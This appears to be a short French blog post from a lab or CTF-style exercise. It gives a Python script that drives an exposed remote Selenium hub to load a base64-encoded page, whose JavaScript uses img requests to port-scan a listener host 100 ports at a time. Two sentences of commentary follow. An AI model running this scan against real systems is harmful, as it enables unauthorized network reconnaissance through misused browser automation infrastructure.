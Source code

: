 ```python
from time import sleep
import re
from base64 import b64encode

from selenium import webdriver

driver = webdriver.Remote(
    command_executor='http://192.168.56.116:443/wd/hub'
)

page = """<body>
    <div id="portscan"></div>
    <script>
        function ping(port) {
            portscan_div = document.getElementById("portscan");
            portscan_div.innerHTML = '';
            for (var i = 0; i < 100; i++) {
                var img = document.createElement("img");
                img.src = "http://192.168.56.1:" + (port + i) + "/" + new Date().getMilliseconds();;
                portscan_div.appendChild(img);
            }
            setTimeout(ping, 10000, port+100);
        }

        setTimeout(ping, 1, 1);
    </script>"""

url = f"data:text/html;base64,{b64encode(page.encode()).decode()}"
driver.get(url)
driver.set_page_load_timeout(60)

current_port = ""
try:
    while True:
        search = re.search(r":\d+", driver.page_source)
        if search:
            new_port = search.group()
            if new_port != current_port:
                current_port = new_port
                print(f"Current port: {current_port}")
        sleep(2)
except KeyboardInterrupt:
    print(driver.page_source)

driver.quit()
```

Il faut mettre son interface réseau en écoute pour voir les paquets qui arrivent bien à destination (et ne sont donc pas filtrés).  

C'est loin d'être une science exacte : Selenium c'est bien pour des tests d'intégration mais il faut pas trop chercher à le pousser.  


*Published December 23 2021 at 18:08*
